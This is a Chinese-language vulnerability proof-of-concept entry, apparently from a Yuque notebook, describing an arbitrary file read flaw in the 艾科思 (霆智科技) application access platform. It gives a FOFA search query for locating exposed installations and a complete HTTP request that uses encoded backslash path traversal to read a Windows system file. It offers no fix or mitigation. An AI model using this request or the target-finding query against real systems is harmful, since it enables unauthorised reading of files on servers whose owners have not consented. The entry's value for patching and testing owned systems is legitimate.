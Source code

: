 # 艾科思（霆智科技）应用接入系统存在任意文件读取漏洞

# 一、漏洞简介
艾科思应用接入系统(霆智科技的VA虚拟应用平台)是一个创新的技术平台，旨在为用户提供虚拟助手（Virtual Assistant）的功能和服务。虚拟助手是一种人工智能系统，通过自然语言处理、机器学习和其他相关技术，能够与用户进行对话，并执行各种任务和服务。该系统存在任意文件读取漏洞

# 二、影响版本
+ 艾科思应用接入系统(霆智科技的VA虚拟应用平台

# 三、资产测绘
+ fofa`body="EAA益和应用接入系统"`
+ 特征

![1696134097313-5de6d021-a63d-484a-a589-463d433d0311.png](./img/3KpyFjAQUmuFS8mN/1696134097313-5de6d021-a63d-484a-a589-463d433d0311-434273.png)

# 四、漏洞复现
```plain
GET /..%5c..%5c..%5c..%5c..%5c..%5c..%5c..%5c..%5c..%5c/windows/win.ini HTTP/1.1
Host: xx.xx.xx.xx
User-Agent: Mozilla/4.0 (compatible; MSIE 8.0; Windows NT 6.1)
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate Connection: keep-alive
```

![1696134155798-c4e50cfe-ddcf-4a0a-94c0-1490816c96a8.png](./img/3KpyFjAQUmuFS8mN/1696134155798-c4e50cfe-ddcf-4a0a-94c0-1490816c96a8-405843.png)



> 更新: 2024-02-29 23:55:47  
> 原文: <https://www.yuque.com/xiaokp7/ocvun2/fi90duzlpyhfdgtx>